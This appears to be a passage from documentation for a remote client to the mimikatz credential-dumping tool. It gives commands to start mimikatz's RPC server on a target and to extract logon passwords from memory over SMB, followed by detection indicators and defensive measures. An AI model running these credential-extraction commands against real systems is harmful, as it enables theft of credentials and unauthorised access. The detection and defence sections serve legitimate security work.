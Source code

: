 ### Memory Dump Analysis
```bash
# Step 1: Create memory dump on target (via other tools)

# Step 2: Connect and analyze dump
python3 mimikatz.py domain.local/admin:password@target.domain.local

# Step 3: Process dump file
# In shell: sekurlsa::minidump dump.dmp
# In shell: sekurlsa::logonpasswords
```

## Prerequisites
- Python 3.x with Impacket installed
- Mimikatz RPC server running on target system
- Administrative credentials for target system
- Network access to target via SMB (445/tcp)
- Understanding of mimikatz command syntax
- Appropriate crypto libraries (pycryptodomex)

## Mimikatz RPC Server Setup
Before using this client, the mimikatz RPC server must be running on the target:

```cmd
# On target Windows system (as Administrator):
mimikatz.exe
mimikatz # rpc::server

# Or start as service:
mimikatz.exe "rpc::server" exit
```

## Detection Considerations
- **Network Indicators**:
  - SMB connections to systems running mimikatz RPC
  - DCE/RPC traffic patterns associated with mimikatz
  - Unusual RPC endpoint registrations
- **System Indicators**:
  - Mimikatz process running with RPC server mode
  - Memory access patterns typical of credential extraction
  - Registry access for certificate extraction
- **Behavioral Indicators**:
  - Remote credential extraction activities
  - Unusual authentication patterns post-extraction
  - Privilege escalation following RPC connections

## Defensive Measures
- **Endpoint Protection**:
  - Deploy advanced EDR solutions to detect mimikatz
  - Implement application whitelisting
  - Monitor for RPC server registrations
- **Network Security**:
  - Monitor SMB traffic for unusual patterns
  - Implement network segmentation
  - Deploy network-based behavioral analysis
- **Credential Protection**:
  - Enable Windows Credential Guard
  - Implement LAPS for local admin passwords
  - Use protected process light for LSA
- **Monitoring and Logging**:
  - Enable detailed process monitoring